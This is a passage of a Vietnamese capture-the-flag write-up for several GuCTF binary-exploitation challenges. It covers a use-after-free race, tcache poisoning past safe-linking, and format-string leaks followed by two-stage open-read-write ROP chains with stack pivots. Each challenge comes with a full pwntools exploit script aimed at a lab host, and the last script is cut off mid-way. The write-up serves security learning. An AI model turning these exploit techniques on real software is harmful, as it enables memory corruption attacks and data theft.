2. Gửi dồn dập (pipeline, cùng một lần `send`) lệnh tạo sink mới rồi lệnh xem lại chính session cũ — để chunk vừa free được cấp lại đúng cho sink trước khi luồng sweep kịp chen vào, và đọc luôn giá trị `vtable` (dưới tên field "serial") của sink đó.
3. Kiểm tra giá trị leak có đúng offset vtable mong đợi hay không; nếu không (thua race) thì đóng kết nối và thử lại từ đầu.
4. Từ giá trị leak, suy ra PIE base, từ đó tính địa chỉ `vtable` thật và địa chỉ `flag_buffer`.
5. Dùng `mirror_import` trên session cũ (giờ đang alias với sink) ghi đè: `vtable` (giữ nguyên, giữ cho `flush` gọi đúng hàm thật), một giá trị expiry cực lớn (chặn sweep tiếp), `memo_ptr = &flag_buffer`, `memo_len` phù hợp.
6. `flush` sink → chạy `cout.write(flag_buffer, memo_len)` → in ra nội dung đã đọc từ `flag.txt`.

### 4. PoC

```python
##!/usr/bin/env python3
## House of Mirage - GuCTF pwn
##
## Bug: background "archive sweep" thread (0x33d0) frees expired sessions and
## pushes their 0x70-byte chunk onto a custom pool freelist (0x6340) BUT never
## clears sessions[] -> dangling pointer. Both sessions and sinks are drawn from
## the same pool, so re-allocating a sink reuses the freed chunk => a session and
## a sink alias the same memory (type confusion / UAF).
##
## A sink's flush virtual (vtable[0] = 0x3840) does, when memo_ptr & memo_len are
## non-zero: cout.write(memo_ptr, memo_len)  -> arbitrary read primitive.
## The "mirror import" op (option 3) writes up to 0x60 attacker bytes over the
## session == sink object, letting us set memo_ptr = &flag_buffer (0x6220).
## Flushing the sink then prints the flag that was fgets()'d from flag.txt.
##
## Only leak needed: PIE base (sink vtable pointer, read via show-session serial).

from pwn import *

context.binary = ELF('./house_of_mirage', checksec=False)
context.log_level = 'info'

LD   = './ld-linux-x86-64.so.2'
ARGV = [LD, '--library-path', '.', './house_of_mirage']

HOST, PORT = '10.112.0.12', 47778


def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    return process(ARGV)

VTABLE_OFF  = 0x6030   # vtable của sink, nằm trong .data
FLAGBUF_OFF = 0x6220   # buffer chứa nội dung flag.txt
WIN_OFF     = 0x3970   # (không dùng ở đây) replay() in flag rồi exit


def menu(p, choice):
    p.recvuntil(b'> ')
    p.sendline(str(choice).encode())


def create_session(p, owner=b'owner', tag=b'tag'):
    menu(p, 1)
    p.sendlineafter(b'owner: ', owner)
    p.sendlineafter(b'tagline: ', tag)
    p.recvuntil(b'session id: ')
    return int(p.recvline().strip())


def create_sink(p, label=b'sink'):
    menu(p, 6)
    p.sendlineafter(b'label: ', label)
    p.recvuntil(b'sink id: ')
    return int(p.recvline().strip())


def arm_expiry(p, sid, seconds):
    menu(p, 5)
    p.sendlineafter(b'id: ', str(sid).encode())
    p.sendlineafter(b'sweep: ', str(seconds).encode())
    p.recvuntil(b'session scheduled')


def show_session(p, sid):
    menu(p, 2)
    p.sendlineafter(b'id: ', str(sid).encode())
    p.recvuntil(b'serial: 0x')
    serial = int(p.recvline().strip(), 16)
    fields = {'serial': serial}
    p.recvuntil(b'scratch: ')
    fields['scratch'] = int(p.recvline().strip(), 16)
    p.recvuntil(b'guard: 0x')
    fields['guard'] = int(p.recvline().strip(), 16)
    return fields


def mirror_import(p, sid, blob):
    assert len(blob) <= 0x60
    menu(p, 3)
    p.sendlineafter(b'id: ', str(sid).encode())
    p.sendlineafter(b'blob length: ', str(len(blob)).encode())
    p.send(blob)  # gửi raw đúng len byte
    p.recvuntil(b'profile imported')


def flush_sink(p, sid, message=b'x'):
    menu(p, 8)
    p.sendlineafter(b'id: ', str(sid).encode())
    p.sendlineafter(b'message: ', message)


def attempt():
    p = start()
    try:
        # 1) tạo một session (slot 0) và cho hết hạn ngay
        s = create_session(p, b'AAAA', b'BBBB')
        arm_expiry(p, s, 0)          # expiry = now  -> bị sweep ở tick kế tiếp
        time.sleep(0.2)              # đợi luồng sweep 25ms pool chunk lại

        # 2)+3) PIPELINE tạo-sink rồi xem-session trong cùng 1 lần gửi để server
        # xử lý liền mạch (vài micro-giây), luồng sweep 25ms không kịp chen vào
        # phá vỡ vtable pointer -> đáng tin cậy kể cả qua remote link độ trễ cao.
        # sink rơi vào slot k = 0.
        k = 0
        p.recvuntil(b'> ')
        p.send(b'6\nCCCC\n' + b'2\n' + str(s).encode() + b'\n')

        p.recvuntil(b'serial: 0x')
        serial = int(p.recvline().strip(), 16)
        if (serial & 0xfff) != (VTABLE_OFF & 0xfff):
            log.warning('lost the race (serial=%#x), retrying', serial)
            p.close()
            return None
        pie = serial - VTABLE_OFF
        log.success('PIE base   = %#x', pie)
        flagbuf = pie + FLAGBUF_OFF
        vtable  = pie + VTABLE_OFF

        # 4) ghi đè object đang bị alias:
        #    [+0x00] vtable thật (để flush chạy đúng hàm gốc)
        #    [+0x08] expiry cực lớn (chặn sweep tiếp -> giữ trạng thái ổn định)
        #    [+0x38] memo_ptr = &flag buffer
        #    [+0x40] memo_len
        blob  = p64(vtable)
        blob += p64(0x7fffffffffffffff)
        blob += b'\x00' * (0x38 - len(blob))
        blob += p64(flagbuf)
        blob += p64(0x40)
        mirror_import(p, s, blob)

        # 5) flush sink -> cout.write(flag_buffer, 0x40)
        flush_sink(p, k, b'mirage')
        p.recvuntil(b' :: ')
        leaked = p.recvline()
        p.close()
        return leaked
    except EOFError:
        p.close()
        return None


if __name__ == '__main__':
    for i in range(20):
        r = attempt()
        if r:
            # flag bắt đầu từ token in được đầu tiên
            m = re.search(rb'grodno\{[^}]*\}', r)
            if m:
                log.success('FLAG: %s', m.group().decode())
            else:
                log.success('memo bytes: %r', r)
            break
        log.info('attempt %d failed, retrying', i + 1)
    else:
        log.failure('exhausted attempts')
```

**Output:**
```
[Chưa chạy lại cục bộ trong phiên viết writeup này — xem lưu ý ở mục 2. Trong
lần khai thác thành công lúc thi, chuỗi thực thi in ra đúng "PIE base = 0x...",
sau đó dòng memo lấy từ flush_sink chứa nội dung grodno{...} đọc từ flag.txt.]
```

### 5. Flag
```
grodno{fake_flag}
```
*(Flag thật đã submit trực tiếp lúc thi qua service của BTC, không lưu lại; giá trị trên chỉ minh hoạ định dạng.)*

## Deep Port (Pwn)

### 1. Thông tin tổng quan
- **Category:** Pwn (Binary Exploitation)
- **Difficulty:** Medium/Hard
- **Tags:** Heap, UAF, Tcache Poisoning, Safe-Linking, glibc 2.39, Function Pointer Hijack

### 2. Đề bài
> *(Không lưu lại nguyên văn đề bài từ platform, mô tả dưới đây được viết lại dựa trên hành vi thực tế của chương trình.)*

Chương trình `deep_port` mô phỏng một cảng hàng hoá quản lý các "shipment" (lô hàng) qua các slot. Menu gồm các thao tác: tạo shipment (cấp phát buffer), sửa dữ liệu, xem thông tin (địa chỉ handler + con trỏ buffer), giải phóng (release) shipment, và một lựa chọn "dispatch" gọi tới một con trỏ hàm xử lý mặc định.

Mục tiêu: lấy flag nằm trong `flag.txt`.

**File đính kèm:**
- `deep_port` — ELF 64-bit, PIE, NX enabled, Full RELRO, Canary found, not stripped (có debug_info), chạy trên glibc 2.39.

### 3. Quá trình phân tích

`dispatch()` (menu 7) đơn giản là `harbor->fn(harbor)`, với `harbor` là một struct heap (`malloc(0x48)`, cấp phát ngay từ đầu trong `setup()`) mà `harbor+0x20` là con trỏ hàm (mặc định trỏ tới `standby`, chỉ in banner) và `harbor+0x28` là chuỗi tên file (mặc định `"flag.txt"`). Chương trình cũng có sẵn `print_flag(rdi)`, hàm này `fopen(rdi+0x28)` / `fgets` / `printf` — nếu chiếm được quyền ghi vào `harbor` để đặt `harbor+0x20 = &print_flag`, `dispatch()` sẽ tự động gọi `print_flag(harbor)` và in ra flag mà không cần ROP hay ghi đè GOT gì cả.

Bug nằm ở `release_shipment()` (menu 4): hàm này `free()` buffer của shipment nhưng **không hề NULL lại con trỏ** trong slot — một use-after-free kinh điển. `view_shipment()` (menu 3) thì vô tình là một oracle leak rất mạnh: nó in ra cả `handler` (chính là địa chỉ hàm `standby`, cho ngay PIE base) lẫn địa chỉ buffer thật trên heap. Có heap leak, UAF trở thành công cụ hoàn hảo để dàn dựng tcache poisoning kiểu safe-linking (glibc ≥ 2.32): free hai chunk cùng size liên tiếp để tcache-bin `0x50` có 2 phần tử, rồi dùng UAF ghi đè `fd` (đã bị mangle bằng `(chunk_addr >> 12) ^ target`) của phần tử đầu để trỏ tới `harbor`.

Vì `harbor` được `malloc(0x48)` ngay đầu tiên trong `setup()`, trước cả bất kỳ shipment nào, nó luôn nằm cố định `chunk0 - 0x50` so với shipment đầu tiên (cả hai đều xin `0x48` byte nên rơi vào cùng bin `0x50`) — không cần leak riêng địa chỉ `harbor`, chỉ cần suy ra từ địa chỉ shipment đã leak.

**Hướng giải quyết:**
1. Tạo hai shipment `s0`, `s1` cùng size `0x48` → hai chunk `0x50`.
2. `view(s0)` leak `handler` (→ PIE base, suy ra `print_flag`) và địa chỉ buffer `chunk0` (→ suy ra `harbor = chunk0 - 0x50`).
3. `release(s0)`, `release(s1)` → tcache-bin `0x50` có 2 phần tử, đầu bin là `s1`, trỏ tiếp (`fd`) tới `s0`.
4. `edit(s1)` ghi đè `fd` đã mangle của `s1` thành `(s1 >> 12) ^ harbor` (safe-linking) → giờ bin trỏ `s1 → harbor`.
5. `create(s2)` rút `s1` ra khỏi bin (dữ liệu không quan trọng); `create(s3)` với payload rút đúng chunk `harbor` ra, ghi `harbor+0x20 = print_flag` và `harbor+0x28 = "flag.txt\0"`.
6. `dispatch()` (menu 7) → gọi `print_flag(harbor)` → in flag.

### 4. PoC

```python
##!/usr/bin/env python3
## Deep Port - GuCTF pwn  (glibc 2.39, tcache poisoning via UAF)
##
## Sink: dispatch() (menu opt 7) does  harbor->fn(harbor)  where harbor is a heap
## struct (malloc(0x48) in setup) with:
##     harbor+0x20 = fn  (= standby, prints a banner)
##     harbor+0x28 = "flag.txt"
## print_flag(rdi) fopen(rdi+0x28)/fgets/printf -> if we set harbor+0x20 =
## &print_flag then dispatch() runs print_flag(harbor) and dumps flag.txt.
##
## Vector: release_shipment() (opt 4) free()s a shipment's buffer but never NULLs
## the pointer -> UAF. view_shipment() (opt 3) leaks the buffer's handler pointer
## (= standby, gives PIE) and the buffer address (heap). With a heap leak we can
## forge the safe-linked tcache fd and make malloc hand back the harbor chunk.
##
## harbor is malloc'd first in setup, so it sits exactly 0x50 below the first
## shipment chunk:  harbor = chunk0 - 0x50  (both are 0x48 requests -> 0x50 bins).
##
## Plan:
##   create s0,s1 (size 0x48)                      -> two 0x50 chunks
##   view s0        -> leak PIE (standby) + heap (chunk0); harbor = chunk0-0x50
##   free s0, free s1                              -> tcache[0x50]: s1 -> s0  (n=2)
##   edit s1: fd = (s1>>12) ^ harbor               -> tcache[0x50]: s1 -> harbor
##   create s2 (size 0x48)                         -> malloc returns s1
##   create s3 (size 0x48, payload)                -> malloc returns harbor;
##        payload = 0x20 pad + p64(print_flag) + b"flag.txt\0"
##   dispatch (opt 7)                              -> print_flag(harbor) -> FLAG

from pwn import *

context.binary = ELF('./deep_port', checksec=False)
context.log_level = 'info'

HOST, PORT = '10.112.0.12', 49543

## Bản hand-out là PIE + canary. Remote service là bản build KHÁC: NON-PIE
## (base 0x400000), KHÔNG có stack canary, và có prologue endbr64 (CET). Việc
## này dịch chuyển toàn bộ hàm, nên offset print_flag của bản local không áp
## dụng được cho remote. Đã xác nhận địa chỉ tuyệt đối trên remote (non-PIE,
## cố định) bằng cách leak standby rồi đọc .text qua primitive arbitrary-read
## dựng từ chính UAF này:
##     standby     = 0x4012b6
##     print_flag  = 0x4012d5   (= standby + 0x1f; endbr64;push;sub rsp,0xa0;...)
STANDBY_OFF        = 0x1209    # bản local PIE
PRINTFLAG_OFF      = 0x1247    # bản local PIE
PRINTFLAG_REMOTE   = 0x4012d5  # bản remote non-PIE (địa chỉ tuyệt đối)
HARBOR_DELTA  = 0x50            # chunk0 - harbor
SZ            = 0x48            # size yêu cầu -> rơi vào tcache bin 0x50


def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    return process(context.binary.path)


def create(p, slot, size, data):
    p.sendlineafter(b'> ', b'1')
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.sendlineafter(b'Manifest size:', str(size).encode())
    p.sendafter(b'Manifest data:', data)   # raw read(); chỉ gửi data
    p.recvuntil(b'Docked.')


def edit(p, slot, data):
    p.sendlineafter(b'> ', b'2')
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.sendafter(b'New manifest data:', data)
    p.recvuntil(b'Updated.')


def view(p, slot):
    p.sendlineafter(b'> ', b'3')
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.recvuntil(b'Receipt stamp: ')
    handler = int(p.recvline().strip(), 16)     # = standby -> PIE
    p.recvuntil(b'Manifest pointer: ')
    ptr = int(p.recvline().strip(), 16)         # = địa chỉ buffer trên heap
    return handler, ptr


def release(p, slot):
    p.sendlineafter(b'> ', b'4')
    p.sendlineafter(b'Slot:', str(slot).encode())
    p.recvuntil(b'released.')


def dispatch(p):
    p.sendlineafter(b'> ', b'7')


def exploit():
    p = start()

    # hai chunk cùng size để tcache-bin 0x50 đạt count 2 sau khi free cả hai
    create(p, 0, SZ, b'AAAA')
    create(p, 1, SZ, b'BBBB')

    # leak handler (= standby) + heap từ slot 0
    handler, chunk0 = view(p, 0)
    if args.REMOTE:
        print_flag = PRINTFLAG_REMOTE          # bản remote non-PIE cố định
    else:
        print_flag = (handler - STANDBY_OFF) + PRINTFLAG_OFF   # bản local PIE
    harbor     = chunk0 - HARBOR_DELTA
    chunk1     = chunk0 + 0x50
    log.success('standby    = %#x', handler)
    log.success('heap chunk0= %#x', chunk0)
    log.success('harbor     = %#x', harbor)
    log.success('print_flag = %#x', print_flag)

    # UAF double free -> tcache[0x50] head = chunk1 (chunk1 -> chunk0)
    release(p, 0)
    release(p, 1)

    # đầu độc fd đã safe-link của head để trỏ tới chunk harbor
    mangled = (chunk1 >> 12) ^ harbor
    edit(p, 1, p64(mangled))

    # rút cạn hai slot đã bị đầu độc: s2 <- chunk1, s3 <- harbor
    create(p, 2, SZ, b'CCCC')
    payload = b'A' * 0x20 + p64(print_flag) + b'flag.txt\x00'
    create(p, 3, SZ, payload)

    # kích hoạt dispatch -> print_flag(harbor) -> đọc flag.txt
    dispatch(p)

    data = p.recvall(timeout=3)
    m = re.search(rb'grodno\{[^}]*\}', data)
    if m:
        log.success('FLAG: %s', m.group().decode())
    else:
        log.info('output:\n%s', data.decode(errors='ignore'))
    p.close()


if __name__ == '__main__':
    exploit()
```

**Output:**
```
[+] Starting local process '/home/caterpie/GuCTF/pwn/deep_port/deep_port': pid 4751
[+] standby    = 0x5e2f77767209
[+] heap chunk0= 0x5e2f78a632f0
[+] harbor     = 0x5e2f78a632a0
[+] print_flag = 0x5e2f77767247
[+] Receiving all data: Done (40B)
[+] FLAG: grodno{fake_flag}
```

### 5. Flag
```
grodno{fake_flag}
```
*(Flag thật đã submit trực tiếp lúc thi qua service của BTC, không lưu lại; giá trị trên chỉ minh hoạ định dạng.)*

## Red Tide Terminal (Pwn)

### 1. Thông tin tổng quan
- **Category:** Pwn (Binary Exploitation)
- **Difficulty:** Hard
- **Tags:** Format String, Stack Overflow, Seccomp, ORW ROP, Stack Pivot, Two-Stage ROP

### 2. Đề bài
> *(Không lưu lại nguyên văn đề bài từ platform, mô tả dưới đây được viết lại dựa trên hành vi thực tế của chương trình.)*

Chương trình `red_tide_terminal` là một "terminal" giả lập yêu cầu người dùng nhập một "Codename" (tên định danh) trước khi vào phần chính, sau đó cho phép gửi một "packet" gồm độ dài và dữ liệu tuỳ ý. Chương trình cài `seccomp` chỉ cho phép các syscall `read`, `write`, `openat`, `exit`, `exit_group` — chặn hẳn `execve`/`mmap` nên không thể thực thi shell trực tiếp.

Mục tiêu: lấy flag nằm trong `flag.txt`, chỉ bằng các syscall được seccomp cho phép (kỹ thuật open-read-write, "ORW").

**File đính kèm:**
- `red_tide_terminal` — ELF 64-bit, PIE, NX enabled, Full RELRO, Canary found, not stripped (có debug_info), có cài `seccomp` filter.

### 3. Quá trình phân tích

Vì `execve`/`mmap`/`mprotect` đều bị seccomp chặn, hướng khai thác duy nhất còn lại là ROP chain gọi trực tiếp `openat`/`read`/`write` qua syscall — "ORW chain" kinh điển khi seccomp bật. Chương trình có hai lỗ hổng riêng biệt phục vụ hai mục đích khác nhau. `log_identity()` nhận "Codename" rồi `printf(buffer)` trực tiếp không có format string cố định — một **format string bug** cổ điển, dùng để leak dữ liệu trên stack (canary, địa chỉ return để tính PIE base) bằng cách gửi các chỉ định vị trí kiểu `%N$p`.

`route_packet()` thì đọc "Packet data" bằng `read(0, buf, n)`, chỉ kiểm tra `n <= 0xf0`, trong khi khoảng cách thực từ `buf` tới địa chỉ return trên stack chỉ có `0x68` byte — **stack overflow** cho phép ghi đè return address và dựng ROP chain. Vấn đề là cửa sổ ghi đè tối đa chỉ `0xf0 - 0x68` byte sau return address, không đủ chỗ để nhồi trọn một chain ORW đầy đủ (mở file, đọc, in ra, thoát) chỉ trong một lần gửi.

Giải pháp là ROP **hai tầng**: chain đầu tiên (vừa đủ trong cửa sổ overflow chật hẹp) chỉ làm hai việc — gọi `read(0, bss_addr, 0x200)` để nạp thêm dữ liệu lớn vào vùng `.bss` (không giới hạn kích thước như packet), rồi dùng gadget `pop rbp; ret` nạp `rbp = bss_addr` và `leave; ret` (tương đương `mov rsp, rbp; pop rbp; ret`) để **pivot stack sang `.bss`**. Chain ORW đầy đủ (`openat("flag.txt")` → `read` → `write` → `exit_group`) được gửi ở lần `send` thứ hai, và sẽ chỉ thực thi sau khi stack đã pivot xong — lúc này không còn giới hạn `0xf0` byte nữa vì đang chạy trên vùng nhớ tự cấp qua `read` thứ hai.

**Hướng giải quyết:**
1. Gửi "Codename" là chuỗi format-string leak canary và địa chỉ return trên stack (ví dụ `%23$p.%25$p`), từ đó suy ra `canary` thật và `PIE base = ret_leak - offset_cố_định`.
2. Tính địa chỉ các gadget cần dùng (`pop rdi/rsi/rdx/rax; syscall`, `pop rbp; ret`, `leave; ret`) và địa chỉ `.bss` theo `PIE base`.
3. Gửi packet đầu tiên: `padding 0x58 byte + canary thật + saved rbp giả + stage1`, với `stage1` = ROP chain gọi `read(0, bss, 0x200)` rồi `pop rbp` nạp `rbp=bss`, kết thúc bằng `leave; ret` để pivot `rsp` sang `bss`.
4. Gửi tiếp (lần `send` thứ hai) chain ORW đầy đủ đặt tại `bss`: `openat(AT_FDCWD, "flag.txt", O_RDONLY)` → `read(fd, buf, n)` → `write(1, buf, n)` → `exit_group(0)`, kèm chuỗi `"flag.txt\0"` nhúng ngay sau chain để làm tham số path.
5. Sau pivot, CPU tiếp tục thực thi đúng chain ORW này → đọc và in ra flag.

### 4. PoC

```python
##!/usr/bin/env python3
## Red Tide Terminal - GuCTF pwn  (seccomp ORW ROP)
##
## seccomp (install_filter) allows only: read(0), write(1), openat(257),
## exit(60), exit_group(231)  -> classic open/read/write the flag.
##
## Two bugs:
##   log_identity(): printf([rbp-0x90]) on the user buffer -> FORMAT STRING.
##   route_packet(): read(0, [rbp-0x60], n) with only  n <= 0xf0  checked, while
##       buffer -> return is 0x68 -> STACK OVERFLOW.
##
## Only 0xf0-0x68 bytes of ROP fit in the first read, too small for a full ORW
## chain, so we stage: the overflow chain does read(0, bss, 0x200) then pivots
## rsp into bss (pop rbp; leave;ret) and runs the real ORW chain from there.
##
## The binary ships the gadgets: pop rdi/rsi/rdx/rax ; syscall.
##
## BUILD DIFFERENCE (same story as the other GuCTF chals): the hand-out is
## PIE + canary, but the REMOTE service is a NON-PIE, NO-canary, endbr64/CET
## rebuild. So on remote there is no canary to leak/preserve and every offset
## shifts. The non-PIE addresses below were recovered at runtime by turning the
## format string into an arbitrary read (%N$s with the target in the buffer) and
## scanning .text for the gadget block (each gadget = endbr64; pop; ret; nop; ud2).

from pwn import *

context.binary = ELF('./red_tide_terminal', checksec=False)
context.log_level = 'info'

HOST, PORT = '10.112.0.12', 48478


def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    return process(context.binary.path)


def exploit():
    p = start()

    if args.REMOTE:
        # địa chỉ tuyệt đối cố định trên bản remote non-PIE (đã phục hồi qua
        # arbitrary-read dựng từ format string)
        canary = 0                       # bản remote không có canary
        p_rdi, p_rsi, p_rdx, p_rax, syscall = 0x4013ec, 0x4013f5, 0x4013fe, 0x401407, 0x401410
        p_rbp   = 0x401479               # pop rbp ; ret
        leave_r = 0x4014ba               # leave ; ret   (stack pivot)
        bss     = 0x404100
        p.sendlineafter(b'Codename:', b'stormpetrel')   # vô hại, remote không check canary
    else:
        # bản local PIE + canary: leak canary (%23) và địa chỉ return PIE (%25)
        p.sendlineafter(b'Codename:', b'%23$p.%25$p')
        p.recvuntil(b'AUDIT: ')
        canary_s, ret_s = p.recvline().strip().split(b'.')
        canary = int(canary_s, 16)
        pie    = int(ret_s, 16) - 0x1609
        log.success('canary   = %#x', canary)
        log.success('PIE base = %#x', pie)
        p_rdi, p_rsi, p_rdx, p_rax = pie + 0x13b0, pie + 0x13b5, pie + 0x13ba, pie + 0x13bf
        syscall = pie + 0x13c4
        leave_r = pie + 0x13ae
        p_rbp   = pie + 0x11a4
        bss     = pie + 0x4100

    # --- tầng 1: overflow route_packet -> read(0, bss, 0x200) rồi pivot ---
    # buffer -> return chỉ 0x68 byte; slot canary (offset 0x58) là padding vô hại
    # trên bản remote không canary, và là canary thật trên bản local.
    stage1 = flat(
        p_rax, 0, p_rdi, 0, p_rsi, bss, p_rdx, 0x200, syscall,  # read(0,bss,0x200)
        p_rbp, bss,     # rbp = bss
        leave_r,        # mov rsp,bss ; pop rbp ; ret -> thực thi [bss+8]
    )
    payload = b'A' * 0x58 + p64(canary) + p64(0) + stage1
    assert len(payload) <= 0xf0, len(payload)

    p.sendlineafter(b'Packet length:', str(len(payload)).encode())
    p.recvuntil(b'Packet data:')
    p.send(payload)

    # --- tầng 2: chain ORW đầy đủ đặt tại bss (thực thi từ bss+8) ---
    readbuf   = bss + 0x300
    chain_len = 32 * 8                       # openat/read/write/exit = 32 qword
    path_addr = bss + 8 + chain_len
    chain = flat(
        # openat(AT_FDCWD, "flag.txt", O_RDONLY)
        p_rax, 257, p_rdi, 0xffffffffffffff9c, p_rsi, path_addr, p_rdx, 0, syscall,
        # read(3, readbuf, 0x100)
        p_rax, 0, p_rdi, 3, p_rsi, readbuf, p_rdx, 0x100, syscall,
        # write(1, readbuf, 0x100)
        p_rax, 1, p_rdi, 1, p_rsi, readbuf, p_rdx, 0x100, syscall,
        # exit_group(0)
        p_rax, 231, p_rdi, 0, syscall,
    )
    assert len(chain) == chain_len
    stage2 = p64(0) + chain + b'flag.txt\x00'
    p.send(stage2)

    data = p.recvall(timeout=3)
    m = re.search(rb'grodno\{[^}]*\}', data)
    if m:
        log.success('FLAG: %s', m.group().decode())
    else:
        log.info('output:\n%s', data.decode(errors='ignore'))
    p.close()


if __name__ == '__main__':
    exploit()
```

**Output:**
```
[+] Starting local process '/home/caterpie/GuCTF/pwn/red_tide_terminal/red_tide_terminal': pid 5121
[+] canary   = 0xa1355d1a8a22f600
[+] PIE base = 0x5a94741d1000
[+] Receiving all data: Done (272B)
[+] FLAG: grodno{fake_flag}
```

### 5. Flag
```
grodno{fake_flag}
```
*(Flag thật đã submit trực tiếp lúc thi qua service của BTC, không lưu lại; giá trị trên chỉ minh hoạ định dạng.)*

## Red Tide Terminal Revenge (Pwn)

### 1. Thông tin tổng quan
- **Category:** Pwn (Binary Exploitation)
- **Difficulty:** Hard
- **Tags:** Format String, Stack Overflow, Seccomp, ORW ROP, Stack Pivot, Tight ROP Budget

### 2. Đề bài
> *(Không lưu lại nguyên văn đề bài từ platform, mô tả dưới đây được viết lại dựa trên hành vi thực tế của chương trình.)*

Bản "khó hơn" của `red_tide_terminal`, cùng ý tưởng seccomp ORW nhưng chương trình yêu cầu nhập 2 trường ("Codename" và "Audit note") thay vì 1, và cửa sổ overflow bị thu hẹp đáng kể so với bản gốc. Cùng một `seccomp` filter chỉ cho phép `read`, `write`, `openat`, `exit`, `exit_group`.

Mục tiêu: lấy flag nằm trong `flag.txt`, chỉ bằng các syscall được seccomp cho phép.

**File đính kèm:**
- `red_tide_terminal_revenge` — ELF 64-bit, PIE, NX enabled, Full RELRO, Canary found, not stripped (có debug_info), có cài `seccomp` filter.

### 3. Quá trình phân tích

Cấu trúc lỗ hổng về bản chất giống hệt `red_tide_terminal`, nhưng bị siết chặt hơn ở cả hai điểm. `log_identity()` giờ đọc 2 trường bằng `fgets` — "Codename" và "Audit note" — rồi in ra `"AUDIT[%#lx]: "` với một giá trị con trỏ đã bị obfuscate (không hữu ích trực tiếp), sau đó `printf(audit_note)` — **format string bug** nằm ở trường nhập thứ hai thay vì thứ nhất. `route_packet()` vẫn overflow theo kiểu cũ (`read(0, buf, n)` chỉ check `n <= 0xb0`), nhưng khoảng cách buffer→return giờ chỉ còn `0x58` byte, để lại vỏn vẹn **11 qword** cho ROP chain — chật hơn hẳn bản gốc (vốn đã phải chia 2 tầng).

11 qword không đủ ngay cả cho chain tối giản "read + pivot" nếu làm theo cách thông thường (gọi `read` cần 8 qword gadget rồi mới tới `pop rbp; leave;ret` để pivot — vượt quá 11 qword). Điểm mấu chốt để "vừa túi" nằm ở việc tận dụng chính `leave; ret` của `route_packet` — vốn *đã* thực thi ở cuối hàm để trả về bình thường. `leave` tương đương `mov rsp, rbp; pop rbp`, tức là nó tự nạp `rbp` từ slot "saved rbp" đã bị overflow ghi đè. Nếu ta set sẵn `saved rbp = bss` **ngay trong chính payload tràn ban đầu** (không tốn thêm qword ROP nào, chỉ là ghi đè đúng vị trí có sẵn), thì `leave; ret` của `route_packet` tự làm luôn việc pivot `rbp` — chain ROP chỉ còn cần **10 qword** để gọi `read(0, bss, 0x200)` rồi tự `leave; ret` lần nữa để nhảy `rsp` sang `bss`, vừa khít trong 11 qword cho phép.

Sau khi pivot, chain ORW đầy đủ (giống hệt bản gốc: `openat("flag.txt")` → `read` → `write` → `exit_group`) được gửi ở lần `send` thứ hai, thực thi tại `.bss` không còn giới hạn kích thước.

**Hướng giải quyết:**
1. Gửi "Codename" bất kỳ (không quan trọng), gửi "Audit note" là chuỗi format-string leak canary (`%9$p`) và địa chỉ return trên stack (`%11$p`), suy ra `PIE base = ret_leak - offset_cố_định`.
2. Tính địa chỉ các gadget cần dùng (`pop rdi/rsi/rdx/rax; syscall`, `leave; ret`) và địa chỉ `.bss`.
3. Dựng payload tràn: `padding 0x48 byte + canary thật + saved-rbp bị ghi đè = bss + stage1 (10 qword)`, với `stage1` chỉ gồm `read(0, bss, 0x200)` rồi kết thúc bằng `leave; ret`.
4. Gửi payload này làm "Packet data" — khi `route_packet()` return, `leave;ret` của chính nó nạp `rbp = bss` (đã set sẵn từ bước 3) rồi nhảy vào `stage1`; `stage1` chạy `read` nạp thêm dữ liệu lớn vào `bss`, rồi `leave;ret` lần hai pivot hẳn `rsp` sang `bss`.
5. Gửi tiếp (lần `send` thứ hai) chain ORW đầy đủ đặt tại `bss`, kèm chuỗi `"flag.txt\0"` làm tham số path.
6. Sau pivot, CPU thực thi đúng chain ORW → đọc và in ra flag.

### 4. PoC

```python
##!/usr/bin/env python3
## Red Tide Terminal Revenge - GuCTF pwn  (seccomp ORW ROP, tighter)
##
## Same seccomp ORW setup as red_tide_terminal (read/write/openat/exit), but the
## overflow window is smaller:
##   log_identity(struct): fgets(struct,0x28); fgets(struct+0x28,0x28);
##       printf("AUDIT[%#lx]: ", *(struct+0x50));   <- leaks an obfuscated ptr
##       printf(struct+0x28);                        <- FORMAT STRING (2nd codename)
##   route_packet(): read(0, [rbp-0x50], n) with only n <= 0xb0 checked;
##       buffer -> return is 0x58, leaving just 11 qwords of ROP.
##
## Format string leaks canary (%9) and a PIE return addr (start_session+0x56, %11).
##
## 11 qwords is too small for a full ORW chain, so we stage into .bss and pivot.
## Trick to fit stage-1 in 11 qwords: pre-set the OVERWRITTEN saved rbp = bss, so
## route_packet's own `leave;ret` already loads rbp=bss. Stage-1 then only needs
##   read(0, bss, 0x200) ; leave;ret        (10 qwords)
## and the final leave;ret pivots rsp into bss to run the real ORW chain.
##
## REMOTE (per the GuCTF pattern) is a NON-PIE / no-canary / endbr64 rebuild; the
## absolute addresses were recovered via the fmt-string arbitrary read.

from pwn import *

context.binary = ELF('./red_tide_terminal_revenge', checksec=False)
context.log_level = 'info'

HOST, PORT = '10.112.0.12', 42461


def start():
    if args.REMOTE:
        return remote(HOST, PORT)
    return process(context.binary.path)


def exploit():
    p = start()

    if args.REMOTE:
        # địa chỉ tuyệt đối cố định trên bản remote non-PIE (đã phục hồi qua
        # arbitrary-read dựng từ format string; mỗi gadget dạng endbr64;op;ret;nop;ud2).
        # Bản build này không có canary.
        p.sendlineafter(b'Codename:', b'AAAA')
        p.sendlineafter(b'Audit note:', b'stormpetrel')   # không có canary để leak
        canary = 0
        p_rdi, p_rsi, p_rdx, p_rax, syscall = 0x4013ec, 0x4013f5, 0x4013fe, 0x401407, 0x401410
        leave_r = 0x40141a               # leave ; ret
        bss     = 0x404100
    else:
        p.sendlineafter(b'Codename:', b'AAAA')
        p.sendlineafter(b'Audit note:', b'%9$p.%11$p')
        p.recvuntil(b'AUDIT[')
        p.recvuntil(b': ')
        canary_s, ret_s = p.recvline().strip().split(b'.')
        canary = int(canary_s, 16)
        pie    = int(ret_s, 16) - 0x1676
        log.success('canary   = %#x', canary)
        log.success('PIE base = %#x', pie)
        p_rdi, p_rsi, p_rdx, p_rax = pie + 0x13b0, pie + 0x13b5, pie + 0x13ba, pie + 0x13bf
        syscall = pie + 0x13c4
        leave_r = pie + 0x13ca
        bss     = pie + 0x4100

